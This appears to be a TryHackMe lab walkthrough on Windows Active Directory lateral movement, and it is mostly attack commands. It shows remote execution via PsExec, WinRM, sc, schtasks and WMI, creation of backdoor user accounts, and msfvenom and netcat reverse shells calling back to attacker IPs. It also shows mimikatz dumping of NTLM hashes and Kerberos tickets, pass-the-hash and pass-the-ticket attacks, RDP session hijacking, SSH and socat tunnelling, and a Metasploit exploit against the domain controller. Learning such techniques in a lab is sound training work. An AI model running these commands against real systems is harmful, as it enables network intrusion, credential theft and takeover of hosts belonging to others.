





# Lateral Movement and Pivoting

In this room we are going to take a look at lateral movement, a group of techniques used by attackers to move around the network while creating as few alerts as possible. We'll learn about several common techniques used in the wild for this end and the tools involved. Before we begin our exercise we need to configure our VPN and DNS. If you are curious how you can do this in Kali and in Windows you can check my previous walkthroughs on "Breaching AD" and "Enumerating AD".

### Spawning Processes Remotely

Now we are going to perform Task 3 in each of the different ways it was described it was possible: 

#### Psexec

First, we are going to use Psexec to jump from the THMJMP2 server to the THMIIS.

```
ssh za\\tracey.turner@thmjmp2.za.tryhackme.com

#Option 1
PsExec64.exe \\thmiis.za.tryhackme.com -u ZA.TRYHACKME.COM\t1_leonard.summers -p EZpass4ever -i cmd.exe -accepteula

#Option 2
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.95.55 4443"

PsExec64.exe \\thmiis.za.tryhackme.com -u ZA.TRYHACKME.COM\t1_leonard.summers -p EZpass4ever -accepteula -i "c:\tools\nc64.exe -e cmd.exe 10.50.95.55 4445"

#Option 3
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "C:\tools\PsExec64.exe \\thmiis.za.tryhackme.com -u ZA.TRYHACKME.COM\t1_leonard.summers -p EZpass4ever -accepteula -i \"C:\tools\nc64.exe -e cmd.exe 10.50.95.55 4445\""
```

This commands theoretically would let us first jump to the thmjmp2 machine and afterwards move laterally to the thmiis machine using admin credentials.

> -accepteula: When you run PsExec64.exe for the first time, it will display the EULA and ask you to accept it before proceeding. If you use the "-accepteula" parameter, PsExec64.exe will automatically accept the EULA and proceed with its execution.
>
> Unfortunately, using option 1 I was getting an "Access is denied" error. I don't know if this is a problem with the machine or if I'm missing something but anyways here was my attempt. Option 2 and 3 try to get around the access is denied by logging on with admin credentials to the same machine we are in and then trying to execute a reverse shell since with cmd it automatically exited with error code. It outputted an error stating the path to nc64.exe could not be found so I got stuck.

#### Remote Process Creation using WinRM

**CMD**

Fortunately, in the following example I was able to perform this task using winrs.exe

```
winrs.exe -u:t1_leonard.summers -p:EZpass4ever -r:thmiis.za.tryhackme.com cmd
```




**Powershell**

```
$username = 't1_leonard.summers';
$password = 'EZpass4ever';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

Enter-PSSession -Computername thmiis.za.tryhackme.com -Credential $credential
```


Finally, here is another test we can do by remotely executing `whoami` with the administrator credentials that were supplied by THM.

```
Invoke-Command -Computername thmiis.za.tryhackme.com -Credential $credential -ScriptBlock {whoami}
```


#### Remotely Creating Services with sc

**New User**

The first set of commands were outputting an "Access denied" error, so I think that we must perform this task using the administrator credentials provided coupled with the **runas** binary.

> Note: Use the forward slash in order to input the " " inside the command we are running. If you use another set of quotes the command will not be properly interpreted.
>
> For example we are using runas to execute the sc.exe command which also will run the command net user nabecos etc.. The double quotes of the net user command have to have a backslash.

```
sc.exe \\10.200.98.201 create testtest binPath= "net user nabecos Pass123 /add" start= auto
sc.exe \\10.200.98.201 start testtest


runas /netonly /user:za.tryhackme.com\t1_leonard.summers "sc.exe \\10.200.98.201 create testtest binPath= \"net user nabecos Pass123 /add\" start= auto"
runas /netonly /user:za.tryhackme.com\t1_leonard.summers "sc.exe \\10.200.98.201 start testtest"
```

After logging on on the target machine I was able to verify that the user "nabecos" was created.

```
net user
or
net user nabecos
```

Now we can login with this user:

```
ssh nabecos@thmiis.za.tryhackme.com
```

Supply the defined password and you get a SSH session!


**Launch Payload**

What we are going to do is create a reverse shell executable, place it inside the target using SMB and execute the payload with by remotely creating a service which runs our payload and creates a reverse shell by connecting back to us on our attacker machine.

> Note: If we try to run a reverse shell, it disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the exe-service format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

Create payload:

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o nabecos.exe
```

Upload payload using SMB:

```
smbclient -c 'put nabecos.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever 
```

Start listener:

```
/multi/handler
set
set
set
exploit
```

Create and launch malicious service:

```
runas /netonly /user:za.tryhackme.com\t1_leonard.summers "sc.exe \\thmiis.za.tryhackme.com create nabecosTHM binPath= \"%windir%\nabecos.exe\" start= auto"

runas /netonly /user:za.tryhackme.com\t1_leonard.summers "sc.exe \\thmiis.za.tryhackme.com start nabecosTHM"
```


Great! It worked and now we have sufficient privileges to read the content of the Flag.exe on the Desktop.

#### Creating Scheduled Tasks Remotely

First we are going to connect to our first host and schedule a task for our second host which SYSTEM privileges that executes cmd.exe. This has to be done with runas because we do not have sufficient privileges to perform this task on the target machine.

Finally, we are going to run the task:

```
schtasks /s 10.200.98.201 /RU "SYSTEM" /create /tn nabecosTHM2 /tr \"%windir%\nabecos.exe\" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s 10.200.98.201 /run /TN "nabecosTHM2" 


runas /netonly /user:za.tryhackme.com\t1_leonard.summers "schtasks /s 10.200.98.201 /RU \"SYSTEM\" /create /tn nabecosTHM2 /tr \"%windir%\nabecos.exe\" /sc ONCE /sd 01/01/1970 /st 00:00"

runas /netonly /user:za.tryhackme.com\t1_leonard.summers "schtasks /s 10.200.98.201 /run /TN nabecosTHM2"
```

Cleanup:

```
schtasks /S 10.200.98.201 /TN "THMtask2" /DELETE /F
```


### Moving Laterally using WMI

#### Connecting to WMI from Powershell

```
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```


#### Remote Process Creation Using WMI

```
$Command = "powershell.exe -Command Set-Content -Path C:\batata.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```


After logging in as corine.waters I was able to verify that the process was silently created on the target machine.

On THM they also mentioned that you can use the method below on legacy systems. The problem is that for some reason which was also happening with the commands on the previous task despite providing credentials I think they are not being correctly used and the process is being called as tracey.turner. Hence, I got a new shell through port 6666 with privileges of korine.waters (despite being logged in as tracey.turner) and was able to launch the command below:

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_korine.waters "c:\tools\nc64.exe -e cmd.exe 10.50.95.55 6666"

wmic.exe /user:ZA.TRYHACKME.COM\t1_corine.waters /password:Korine.1994 /node:thmiis.za.tryhackme.com process call create "cmd.exe /c calc.exe" 
```




#### Creating Services Remotely with WMI

After creating the $Session object we can create a new service with the commands below:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user nabecos2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

It Worked!


#### Creating Scheduled Tasks Remotely with WMI

Once again after creating the $Session object we can try to create a service which creates a new user and launch it:

> I changed the Args value to Arguments since it was giving an error

```
$Command = "cmd.exe"
$Arguments = "/c net user nabecos3 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Arguments
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask555"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask555"
```


Once again, it worked!


#### Installing MSI packages through WMI

This task is going to done in order to read the flag.exe file, not following the example given.

Create payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=5555 -f msi > nabecos.msi
```

Transfer payload:

```
smbclient -c 'put nabecos.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

Execute payload:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\nabecos.msi"; Options = ""; AllUsers = $false}
```




### Use of Alternate Authentication Material

#### Pass-the-Hash

First thing is going to the /tools directory and launching mimikatz. 

> The "privilege::debug" command enables the SeDebugPrivilege, which is a privilege that allows a user or process to debug other processes on the system. By enabling this privilege, Mimikatz can access the memory of other processes, such as LSASS, which can contain sensitive information like user credentials. This privilege is often required for other Mimikatz commands to work properly.
>
> The "token::elevate" command attempts to elevate the privileges of the current user or process to the highest level possible. If successful, this command can grant SYSTEM-level privileges, which can provide complete control over the system. This command requires administrative privileges to execute successfully.

```
privilege::debug
token::elevate
```

Now we are going to try and extract NTLM hashes from the local SAM database:

```
lsadump::sam
```

Unfortunetly, credentials for the account we were looking for were not in the local SAM database.



Now we are going to try and extract NTLM hashes from the local LSASS memory:

```
sekurlsa::msv
```

> Authentication Id : 0 ; 672956 (00000000:000a44bc)                                                                                              
> Session           : RemoteInteractive from 4                                                                                                    
> User Name         : t1_toby.beck                                                                                                                
> Domain            : ZA                                                                                                                          
> Logon Server      : THMDC                                                                                                                       
> Logon Time        : 4/7/2023 7:26:37 PM                                                                                                         
> SID               : S-1-5-21-3330634377-1326264276-632209373-4607                                                                               
>         msv :                                                                                                                                   
>          [00000003] Primary                                                                                                                     
>
>          * Username : t1_toby.beck                                                                                                              
>                   * DomDomain   : ZA                                                                                                                        
>                   * NTLM     : 533f1bd576caa912bdb9da284bbc60fe                                                                                          
>                            * SHASHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38                                                                                  
>                            * DPAPI    : d9cd92937c7401805389fbb51260c45f

Great! Now that we have access to the NTLM hash we have 2 options: use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user or by using another tool directly from Kali.

**Option 1 (From the Target):**

```
sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.67.167 5555"
```

Now we just have to laterally move to IIS and read the flag!

```
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

**Option 2 (From Kali):**

```
impacket-wmiexec -hashes ':533f1bd576caa912bdb9da284bbc60fe' 'za.tryhackme.com/t1_toby.beck@thmiis.za.tryhackme.com'
```

or

```
psexec.py -hashes :533f1bd576caa912bdb9da284bbc60fe za.tryhackme.com/t1_toby.beck@10.200.75.201
```

or

```
evil-winrm -i 10.200.75.201 -u t1_toby.beck -H 533f1bd576caa912bdb9da284bbc60fe
```

or

```
xfreerdp /v:10.200.75.201 /u:za.tryhackme.com\\t1_toby.beck /pth:533f1bd576caa912bdb9da284bbc60fe
```


#### Pass-the-Ticket

```
privilege::debug
sekurlsa::tickets /export
```

The tickets will be dumped as .kirbi files to the current directory.

Afterwards we just have to find the TGT we want and perform a Pass the Ticket attack with the command below.

```
kerberos::ptt [0;224593]-2-0-40e10000-t1_toby.beck@krbtgt-ZA.TRYHACKME.COM.kirbi
```

> https://benheater.com/tryhackme-lateral-movement-pivoting/
>
> Example Format:
>
> 

To check if the ticket were correctly injected, you can use the klist command after exiting mimikatz.

```
klist
```

Now we just have to laterally move to IIS and read the flag!

```
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```


#### Overpass-the-hash / Pass-the-Key

```
privilege::debug
sekurlsa::ekeys
```

> Authentication Id : 0 ; 672956 (00000000:000a44bc)                                                                                              
> Session           : RemoteInteractive from 4                                                                                                    
> User Name         : t1_toby.beck                                                                                                                
> Domain            : ZA                                                                                                                          
> Logon Server      : THMDC                                                                                                                       
> Logon Time        : 4/7/2023 7:26:37 PM                                                                                                         
> SID               : S-1-5-21-3330634377-1326264276-632209373-4607                                                                               
>                                                                                                                                                 
>
>          * Username : t1_toby.beck                                                                                                              
>          * Domain   : ZA.TRYHACKME.COM                                                                                                          
>          * Password : (null)                                                                                                                    
>          * Key List :
>            aes256_hmac       6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e
>            rc4_hmac_nt       533f1bd576caa912bdb9da284bbc60fe
>            rc4_hmac_old      533f1bd576caa912bdb9da284bbc60fe
>            rc4_md4           533f1bd576caa912bdb9da284bbc60fe
>            rc4_hmac_nt_exp   533f1bd576caa912bdb9da284bbc60fe
>            rc4_hmac_old_exp  533f1bd576caa912bdb9da284bbc60fe

Now that we know the encryption keys used we can perform a PtK attack:

```
sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /aes256:6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e /run:"c:\tools\nc64.exe -e cmd.exe 10.50.67.167 5556"

or

sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /rc4:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.67.167 5556"
```

Now we just have to laterally move to IIS and read the flag!

```
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```


### Abusing User Behaviour

#### Hijacking RDP Session

After getting the credentials from distributor.za.tryhackme.com/creds_t2 we should connect through RDP

```
xfreerdp /v:thmjmp2.za.tryhackme.com /u:<USER> /p:<PASSWORD>
```

Now that we are in we should run cmd as Administrator and get SYSTEM using psexec

```
PsExec64.exe -s cmd.exe
```

Now that we are SYSTEM we can simply check for a RDP session that is "DISC" and run the command below to highjack it:



```
tscon 4 /dest:rdp-tcp#112
```

We can see the flag after logging in! 


### Port Forwarding

#### SSH

```
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser

ssh tunneluser@kali -R 3389:thmiis:3389 -N
```


#### Socat

```
socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
```

and

```
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```


This way we can obtain the flag on the user's desktop.

To get access to the domain controller we will use create the tunnel user, start ssh on our attack machine and configure the payload as described.

```
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser

systemctl start ssh.socket
```

After having SSH setup on our machine as it can now be used as an SSH server, let's open an SSH shell into the target and perform the tunelling needed to exploit the DC.

```
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

and

```
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

Great we now have a shell and can read the flag!
